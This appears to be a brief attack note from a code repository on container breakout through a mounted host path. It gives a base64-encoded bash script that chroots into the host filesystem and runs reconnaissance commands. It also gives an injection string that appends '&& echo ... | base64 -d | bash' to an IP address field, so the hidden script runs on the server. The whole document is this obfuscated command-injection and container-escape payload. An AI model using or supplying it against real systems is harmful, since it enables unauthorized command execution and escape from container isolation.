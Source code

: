 # Container Breakout Attacks

## Mounted Socket

Base64 encoded string: `IyEvYmluL2Jhc2gKY2QgLwpjZCBob3N0LwpjaHJvb3QgLiAvdXNyL2Jpbi9zaCA8PCAiRU9UIgpwd2QKZ3JlcCBkb2NrZXIgL3Byb2MvMS9jZ3JvdXAgfCB3YyAtbApwcwpFT1QKY2QgLi4=`

Attack: 
`127.0.0.1 && echo "IyEvYmluL2Jhc2gKY2QgLwpjZCBob3N0LwpjaHJvb3QgLiAvdXNyL2Jpbi9zaCA8PCAiRU9UIgpwd2QKZ3JlcCBkb2NrZXIgL3Byb2MvMS9jZ3JvdXAgfCB3YyAtbApwcwpFT1QKY2QgLi4="|base64 -d |bash -`